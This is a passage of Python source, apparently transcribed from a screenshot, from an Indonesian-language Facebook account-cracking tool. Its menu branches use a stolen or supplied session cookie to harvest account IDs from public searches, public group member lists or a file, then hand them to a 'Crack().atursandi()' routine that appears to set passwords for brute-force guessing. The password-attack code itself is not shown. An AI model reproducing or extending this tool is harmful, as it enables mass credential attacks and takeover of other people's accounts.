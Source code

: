 				for gas in self.id:

					Dump(cookie).Dump_Pencarian(f"https://mbasic.facebook.com/public/{gas}")

			except:pass

			Crack().atursandi()

		

		###----------[ MEMBER GRUP ]---------- ###

		elif menu in["6","06"]:

			prints(Panel(f"""{P2}masukan id grup, pastikan grup bersifat publik dan tidak private""",width=80,style=f"{color_panel}"))

			user = console.input(f" {H2}• {P2}masukan id grup : ")

			Dump(cookie).Dump_MemberGrup(f"https://mbasic.facebook.com/groups/{user}")

			Crack().atursandi()

			

		###----------[ FILE MASSAL ]---------- ###

		elif menu in["7","07"]:

			prints(Panel(f"""{P2}masukan tempat file, pastikan izin ke penyimpanan sudah diaktifkan""",width=80,style=f"{color_panel}"))

			user = console.input(f" {H2}• {P2}masukan tempat file : ")

			Dump(cookie).Dump_File(user)

			Crack().atursandi()

		###----------[ PINDAH KE MENU BOT ]---------- ###

		elif menu in["BOT","Bot","bot"]:

			exit(prints(Panel(f"""{M2}🙏 maaf fitur ini belum tersedia, silahkan menunggu update selanjutnya""",width=80,style=f"{color_panel}")))

			

		###----------[ PINDAH KE MENU LAIN ]---------- ###

		elif menu in["LAIN","Lain","lain"]:

			Lain(cookie).menu()

			

		else:

			exit(prints(Panel(f"""{M2}🙏 maaf fitur ini belum tersedia, silahkan menunggu update selanjutnya""",width=80,style=f"{color_panel}")))

			

###----------[ BAGIAN DUMP ]---------- ###

class Dump:

	
